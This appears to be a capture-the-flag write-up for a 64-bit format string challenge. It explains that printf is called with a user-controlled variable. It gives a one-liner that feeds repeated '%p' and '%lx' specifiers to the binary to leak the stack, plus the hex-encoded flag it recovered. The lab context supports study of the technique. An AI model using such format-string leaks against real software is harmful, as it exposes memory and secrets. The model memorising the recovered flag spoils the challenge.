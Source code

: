 # Format String Exploit

see source.c

## Analysis

First 64bit elf file !
For this one we instantly notice a format string exploit because of the call of printf with a variable. We also notice that the flag is on the stack inside the variable 'flag' so we could just print all the stack and hopefully see our flag !
First thing to do is locate the flag bytes on the stack. Then just print everything as hexa and translate bytes into char to get the flag !

```
(python -c "print('%p.' * 20 + '%lx %lx %lx %lx %lx %lx')"; python -c "print('B' * 100)") | $PWD/level02 
[...]
echo -e '\x48\x68\x37\x34\x52\x50\x6e\x75\x51\x39\x73\x61\x35\x4a\x41\x45\x58\x67\x4e\x57\x43\x71\x7a\x37\x73\x58\x47\x6e\x68\x35\x4a\x35\x4d\x39\x4b\x66\x50\x67\x33\x48'
```
